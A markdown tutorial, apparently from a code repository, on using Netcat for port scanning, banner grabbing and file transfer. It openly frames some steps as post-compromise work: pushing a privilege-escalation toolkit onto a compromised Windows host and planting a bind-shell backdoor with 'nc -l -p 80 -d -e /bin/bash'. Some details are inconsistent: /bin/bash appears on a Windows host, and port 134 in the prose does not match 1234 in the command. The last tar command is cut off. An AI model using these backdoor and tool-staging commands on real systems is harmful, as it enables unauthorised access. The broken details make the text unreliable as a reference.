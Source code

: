 # Using Netcat for port scanning
The most basic form of command is:
`# nc [options] host port(s)`
options are described below
host can be either an IP address or valid hostname
Ports can be a single port or a range of ports such as 20-53 or individual ports separated by spaces.

### Let's get started
A small tool that can do remote port scanning would be nice to have and Netcat can fill this role very well and a lot of other ones.

A typical command to perform port scanning would be:
`# nc -v -w 3 -z 192.168.1.69 20-150`
The first portion of the command line that says: nc -v -w 3 which simply tells Netcat to give us more verbose feedback and to timeout after 3 seconds if no connections could be established.

The -z switch prevent Netcat from sending any data to a TCP connection and it will only send very limited data to a UDP connection.

Here is another example: you will use UDP protocol instead of the TCP protocol.
`# nc -v -w 3 -z -u 192.168.1.69 20-100`

### Using Netcat for banner grabbing
Another neat usage of Netcat is for banner grabbing(technique to glean information of the system on the Internet)
`# nc -v -n 192.168.1.69 80
GET / HTTP/1.1\n\n`
Once connected above you simply issued the command: GET HTTP

### Combining both port scan and banner identification
Now we will combine both Port Scan and banner identification.
```bash
# echo -en "GET / HTTP/1.1\n\n" | nc -v -n 216.58.199.228 80
```

### Using Netcat to transfer files
Netcat can be used as well to transfer files between two hosts. It can be a very effective tool to transfer the files that you need in order to escalate your privileges on a remote host.
Let's suppose we have the following scenario. You have a Windows host that you successfully compromised and you wish to transfer additional tools to it in order to escalate your privileges.
on the remote host:
`# nc -l -p 53 > toolkit.zip`
on the local host:
`# nc [remote host] 53 < toolkit.zip`

### Setting up a backdoor
You have compromised a Windows host and you wish to establish a backdoor that you will be able to connect to from your BackTrack attack machine.
on the compromised windows host:
`# nc -l -p 80 -d -e /bin/bash`
on the local host:
`# nc [remote host] 80`
`ls`

### Creating a backup on a remote machine
First you must setup a listener on the host that will receive the files. After issuing the 
`nc -l 134 | tar xvfp -` command. it seems like no activity is taking place. As soon as the transfer is initiated on the remote side you will set a list of files as they are sent across the Netcat pipe.
on the remote host:
```bash
nc -l -p 1234 | tar xvfp -
```
on the local host:
```bash
tar cfp -
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTI5Nzc5NjkyNywxNDU2MDQxNjE1LC0yMD
MzODI5MjMsLTMxNzQwMTQ4MSw1Nzg1OTM4NDIsMTE5OTI1Mzk3
MCw5NDYwMjIzMjMsMTM3Mjk4NjIwMF19
-->